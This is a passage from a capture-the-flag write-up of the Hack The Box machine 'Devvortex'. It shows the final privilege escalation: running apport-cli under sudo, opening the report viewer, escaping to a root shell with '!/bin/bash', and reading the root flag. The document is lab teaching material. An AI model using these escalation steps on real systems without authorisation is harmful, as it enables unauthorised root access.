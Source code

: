 ```
  -c PATH, --crash-file=PATH
                        Report the crash from given .apport or .crash file
                        instead of the pending ones in /var/crash. (Implied if
                        file is given as only argument.)
  --save=PATH           In bug filing mode, save the collected information
                        into a file instead of reporting it. This file can
                        then be reported later on from a different machine.
  --tag=TAG             Add an extra tag to the report. Can be specified
                        multiple times.
  -v, --version         Print the Apport version number.
```

We  create a bug report for any package in the system, e.g. `at`:

```
logan@devvortex:~$ sudo /usr/bin/apport-cli -f at

*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.
.....................

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (3.0 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C):
```

We choose "V: View report", and we are inside a `vi` enviroment.
Luckly for us we can escape executing a bash shell:

```
!/bin/bash
```

Finally, we are root and we can get our system flag!

```
cat /root/root.txt
```

## Pwned

![Devvortex pwned](htb-devvortex-pwned.png)
*Devvortex has been Pwned*

*Enjoy! ;)*
